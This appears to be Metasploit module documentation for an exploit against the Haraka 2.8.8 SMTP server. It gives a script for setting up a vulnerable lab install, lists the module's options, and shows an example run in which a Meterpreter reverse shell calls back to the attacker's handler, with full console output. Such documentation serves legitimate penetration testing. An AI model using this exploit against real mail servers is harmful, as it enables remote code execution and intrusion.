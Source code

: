 ## Vulnerable Application

  Setup the vulnerable Haraka install by running this script on Ubuntu, Debian or similar:

  ```
  #install nodejs and npm
  curl -sL https://deb.nodesource.com/setup_7.x | sudo -E bash -
  sudo apt install nodejs

  #Haraka setup
  wget https://github.com/haraka/Haraka/archive/v2.8.8.tar.gz
  tar xvzf v2.8.8.tar.gz
  cd Haraka-2.8.8/
  npm install npm
  npm install

  haraka -i haraka

  cat << EOF > haraka/config/plugins
  access
  rcpt_to.in_host_list
  data.headers
  attachment
  test_queue
  max_unrecognized_commands
  EOF

  echo haraka.test >> haraka/config/host_list

  # Launch haraka as root
  sudo haraka -c haraka
  ```

## Options

  **from_email**

  String used in the SMTP MAILFROM command

  **to_email**

  String used in the SMTP MAILTO command

  **lhost**

  The address to serve the payload from

  **rhost**

  The address or hostname to target

  **payload**

  Any compatible Metasploit payload

## Example Run

  ```
msf > use exploit/linux/smtp/haraka
msf exploit(haraka) > set email_to root@haraka.test
email_to => root@haraka.test
msf exploit(haraka) > set payload linux/x64/meterpreter_reverse_http
payload => linux/x64/meterpreter_reverse_http
msf exploit(haraka) > run

[*] Started HTTP reverse handler on http://192.168.1.1:8080
[*] Exploiting...
[*] Using URL: http://192.168.1.1:8080/36CacHfIIBnBe3
[*] Sending mail to target server...
[*] http://192.168.1.1:8080 handling request from 192.168.1.2; (UUID: xoljaxxi) Redirecting stageless connection from /UJgmNdAvcM7RkNeSiIMMwg_phj2ODD0I0sgpuoWRXMCMYpHwI0ydcMlb4vVjgylZF9yr-gOpQu9aOibLROCaSBoN0tLHJRGCK0B4ZKg1aQy8LPB with UA 'Mozilla/5.0 (Windows NT 6.1; Trident/7.0; rv:11.0) like Gecko'
[*] http://192.168.1.1:8080 handling request from 192.168.1.2; (UUID: xoljaxxi) Attaching orphaned/stageless session...
[*] Meterpreter session 2 opened (192.168.1.1:8080 -> 192.168.1.2:42122) at 2017-05-10 22:41:06 -0500
[*] Command Stager progress - 100.00% done (120/120 bytes)
[*] Server stopped.

meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.1.2 - Meterpreter session 2 closed.  Reason: User exit
msf exploit(haraka) >
  ```
